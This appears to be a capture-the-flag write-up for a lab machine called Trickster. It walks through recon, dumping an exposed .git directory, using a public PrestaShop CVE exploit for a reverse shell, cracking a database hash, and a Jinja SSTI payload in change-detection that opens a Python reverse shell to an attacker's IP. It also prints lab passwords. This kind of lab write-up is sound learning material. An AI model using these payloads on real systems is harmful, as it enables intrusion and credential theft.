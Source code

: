 TRICKSTER SEASON 6 WRITEUP

RECON
----  
Started With a Port Scan 

**Sudo nmap -sS -Pn -T5 -p- $ip | rustscan --ulimit 5000 -a $ip -- -sC -sV**

![image](https://github.com/user-attachments/assets/f63c71de-024f-419b-91b9-eba7520fe500)

Port TCP 22 --> OpenSSH 8.9p1 OPEN

Port TCP 80 --> apache 2.4.52 OPEN

Left port 22 As BruteForce Won't Be the Way, So Stared Investigating port 80

Added trickster.htb to /etc/hosts

![image](https://github.com/user-attachments/assets/69e68c07-2830-4c6a-967a-c4d7bff0f708)

trickster.htb was just a plain static site and sub dir fuzzing came up with nothing of use  
but there was a link to shop.trickster.htb so added that too /etc/hosts and starting investigating

![image](https://github.com/user-attachments/assets/ecb3ecf7-a301-481b-b693-d920dc8bf3ec)

shop.trickster was running prestashop so i started sub dir and sub domain fuzzing

**gobuster dir -w /usr/share/seclists/Discovery/web-content/common.txt -u $url -x html,php,js,pdf,bak,sql -t 40**  
**ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u $url -H "Host: FUZZ.shop.trickster.htb" -fw 314**  

sub domain was a dead end but sub dir gave some good results
i couldnt find the admin dir but it did come up with an exposed .git directory
so i used gitdumper [https://github.com/arthaud/git-dumper]

**python3 gitdumper.py $url git**

After it finished running i found the admin directory was changed too admin634ewutrx1jgitlooaj

Investing http://shop.trickster.htb/admin634ewutrx1jgitlooaj show me it was running
prestashop 8.1.5

searching for some exploits i found it was vuln to CVE-2024-34716, which is a xss vuln in the contact form of the page
which can be chained with an import theme function to install a reverse shell

FOOTHOLD
-----
make email on website too  
**git clone https://github.com/aelmokhtar/CVE-2024-34716.git**


|-inside reverse_shell.php --> change ip to my ip | not needed pre sure  
|  
|-unzip the .zip file --> change the other reverse_shell.php to my ip  
|----Rezip the .zip file, make sure .htaccess is zipped too  
|  
|-inside exploit.py --> change ncat to nc, or install ncat  
|  
|-inside exploit.html --> change baseUrl, too "http://shop.trickster.htb"  
|--change path too "admin634ewutrx1jgitlooaj"  
|---change httpServerIP too attackers IP  
|----change port to whatever port  

Now Start a python server in the dir with the .zip file 
**python3 -m http.server [port]**

Now run the exploit and we will get a foothold as www-data

WWW-DATA --> JAMES
--------------  
After doing some basic priv esc checks, linpeas, sudo -l, checking web directory ect  
nothing of interest came up, so i decided to look harder into the web directory after digging around for a while i found some database creds inside  
/var/www/prestashop/app/config/parameters.php  

ps_user : prest@shop_o

connecting to the db there were a bunch of tables but inside ps_employees i found  
![image](https://github.com/user-attachments/assets/9f575b4e-de98-49d4-a637-74d85fa43299)

so i saved james's hash to my machine then cracked it with hashcat

**hashcat -a 0 -m 3200 hash /usr/share/wordlists/rockyou.txt**
this gave me james's password for ssh  
james : foreverandalways

JAMES --> ROOT
-------
after getting ssh access to james i did some more checks but nothing came up useful apart from checking the network adaptors i saw a docker ip(172.17.0.1) so i started investigating that  
i did a ping sweep for the /24 range  

**for i in $(seq 1 254);do ping -c 1 172.17.0.$i; done | grep "64 bytes"**
the only other ip that responed was 172.1.0.2

checking out the open connections on the system i was able to see 172.1.0.2:5000

using curl i saw it was running a web server, so i port forwarded it with ssh  
**ssh -L 5000:172.1.0.2:5000 james@$ip**

after heading to the website i saw it was running change-detection v0.45.20 which was vuln to SSTI inside the notification text box

STEPS  

|-Start a Web server on the remote machine  
|--python3 -m http.server 8000  
|  
|-on the change detection site make a new config with the ip being "http://172.1.0.1:8000"  
|--press "Edit > Watch" --> "Notifications" 
|---inside the "Notifications URL List" Enter "get://<attacker-ip>"  
|----Inside the Notification Body" Enter   
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{ x()._module.__builtins__['__import__']('os').popen("python3 -c 'import os,pty,socket;s=socket.socket();s.connect((\"listen_ip\",listen_port));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"/bin/bash\")'").read() }}{% endif %}{% endfor %}"  
and change the IP and PORT  
then press submit

now where the webserver is running just add any file, then go back to the the website and press "Recheck" 

and we will should have a shell

we will still be inside a docker container but we can get the root password from "history"

root : #YouC4ntCatchMe#






